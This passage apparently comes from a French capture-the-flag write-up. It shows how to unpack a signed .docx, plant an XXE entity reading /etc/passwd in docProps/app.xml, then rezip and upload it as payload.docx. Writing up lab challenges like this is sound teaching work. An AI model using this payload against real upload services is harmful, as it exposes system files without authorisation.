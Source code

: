 On commence par renommer et décompresser notre fichier signé dans un dossier **test** : 
```bash
$ mv 984888b0-21cc-4a82-b921-3f5d4639440a_signed.docx signed.docx
$ unzip signed.docx -d test      
Archive:  signed.docx
  inflating: test/_rels/.rels        
  inflating: test/docProps/core.xml  
  inflating: test/docProps/app.xml   
  inflating: test/word/_rels/document.xml.rels  
  inflating: test/word/document.xml  
  inflating: test/word/styles.xml    
  inflating: test/word/fontTable.xml  
  inflating: test/word/settings.xml  
  inflating: test/word/theme/theme1.xml  
  inflating: test/[Content_Types].xml
```
Ensuite on modifie **/test/docProps/app.xml** avec ce contenu : 
```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<Properties xmlns="http://schemas.openxmlformats.org/officeDocument/2006/extended-properties">
  <VictimID>&xxe;</VictimID>
</Properties>
```

Enfin, on se place dans le dossier /test et on recompresse notre archive dans un fichier **payload.docx** : 
```bash
$ zip -r ../payload.docx *                                 
updating: [Content_Types].xml (deflated 76%)
updating: docProps/ (stored 0%)
updating: docProps/core.xml (deflated 48%)
updating: docProps/app.xml (deflated 44%)
updating: _rels/ (stored 0%)
updating: _rels/.rels (deflated 62%)
updating: word/ (stored 0%)
updating: word/settings.xml (deflated 54%)
updating: word/document.xml (deflated 19%)
updating: word/theme/ (stored 0%)
updating: word/theme/theme1.xml (deflated 76%)
updating: word/fontTable.xml (deflated 67%)
updating: word/styles.xml (deflated 73%)
updating: word/_rels/ (stored 0%)
updating: word/_rels/document.xml.rels (deflated 68%)
updating: docProps/custom.xml (deflated 36%)
```

On upload **payload.docx** et ...
TADAAAM !

[mission06]: /posts/DGSE-CTF-OSINT